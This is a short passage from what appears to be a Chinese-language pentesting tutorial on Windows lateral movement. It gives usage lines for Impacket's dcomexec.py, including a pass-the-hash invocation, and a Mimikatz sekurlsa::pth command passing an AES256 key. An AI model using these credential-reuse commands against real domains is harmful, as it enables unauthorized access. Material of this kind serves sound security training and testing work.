dcomexec.py    # 类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点。目前支持               MMC20.Application，ShellWindows和ShellBrowserWindow对象。
```

用法：

```plain
# 普通用法
python3 xxx.py domain/user:password@ip
# 哈希传递
python3 xxx.py domain/user@ip -hashes :93b95aef15f4d50fab96ffc44a2f326a
```

## [PTK aes256 传递](#toc_ptk-aes256)

打补丁后的工作组及域连接：

```plain
sekurlsa::pth /user:webserver-2008 /domain:uf9n1x /aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b
```

## [PTT 票据传递](#toc_ptt)

需要先了解kerberos认证原理，及金票银票等，放在下一篇讨论
